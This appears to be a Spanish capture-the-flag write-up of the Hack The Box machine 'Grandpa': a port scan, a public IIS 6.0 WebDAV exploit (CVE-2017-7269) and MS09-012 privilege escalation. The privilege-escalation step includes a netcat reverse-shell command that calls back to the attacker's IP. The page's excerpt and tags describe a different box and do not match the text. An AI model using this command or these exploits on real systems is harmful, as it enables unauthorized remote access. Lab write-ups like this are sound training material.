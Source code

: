 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 2021-11-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-Grandpa/granpa-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-Grandpa/granpa-logo.png)

Machine IP = 10.10.10.14

Lo primero que realizo es verificar si la maquina esta activa mandándole un “ping” y esperando que me responda.

![](/assets/images/htb-writeup-Grandpa/pic1.png)

Después lo que hago es cuadrar mi entorno de trabajo por medio de un script en Python que cree el cual me dirá exactamente frente a que maquina estoy actuando y a la vez me va a crear unos directorios que normalmente uso.

![](/assets/images/htb-writeup-Grandpa/pic2.png)

## Port Scan

A continuación, mando el nmap:
  * nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.14

```
# Nmap 7.92 scan initiated Thu Nov 18 21:27:35 2021 as: nmap -sS -sV -sC -p- -vvv -oA allPorts 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up, received echo-reply ttl 127 (0.077s latency).
Scanned at 2021-11-18 21:27:41 EST for 295s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan:
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Fri, 19 Nov 2021 02:38:53 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 18 21:32:36 2021 -- 1 IP address (1 host up) scanned in 301.27 seconds

```
## Web Site

Nos metemos a la pagina que esta en el puerto 80 (http), pero nos encontramos con una página que realmente no nos muestra mucho:

![](/assets/images/htb-writeup-Grandpa/pic3.png)

Con ayuda del whatweb y con searchsploit encontramos que existen posibles exploits para el IIS de Microsoft versión 6.0.

![](/assets/images/htb-writeup-Grandpa/pic4.png)

## Shell

Encontramos el exploit en https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269  el cual lo descargamos y corremos y tenemos acceso a la maquina como el usuario “nt authority\network service”


![](/assets/images/htb-writeup-Grandpa/pic5.png)

Para realizar la escalación de privilegios en máquinas Windows normalmente lo primero que mando es un systeminfo para poder recolectar un poco más de información sobre el sistema y de esta manera lograr ver si tiene alguna vulnerabilidad.

![](/assets/images/htb-writeup-Grandpa/pic6.png)

## Privilege escalation

Lo que mas me llama la atención es que la maquina esta corriendo bajo un OS Windows server 2003. Con ayuda de searchsploit busco sobre Windows server 2003 y nos encontramos con un script en C el cual nos toca compilar y posteriormente nos dará acceso como root.

![](/assets/images/htb-writeup-Grandpa/pic7.png)

Antes de iniciar con la escalada de privilegios, tenemos que mandar dos archivos a la maquina víctima, el primer archivo es MS09-012.exe (el archivo C compilado) y el segundo es nc.exe

![](/assets/images/htb-writeup-Grandpa/pic8.png)

Desde nuestra maquina escuchamos en el puerto 443 y corremos el .exe desde la maquina victima por medio del siguiente comando :
  * MS09-012.exe -d “C:\tmp\nc.exe -e cmd 10.10.14.14 443”

Finalmente tenemos acceso a la maquina como Root ( nt authority\system).

![](/assets/images/htb-writeup-Grandpa/pic9.png)
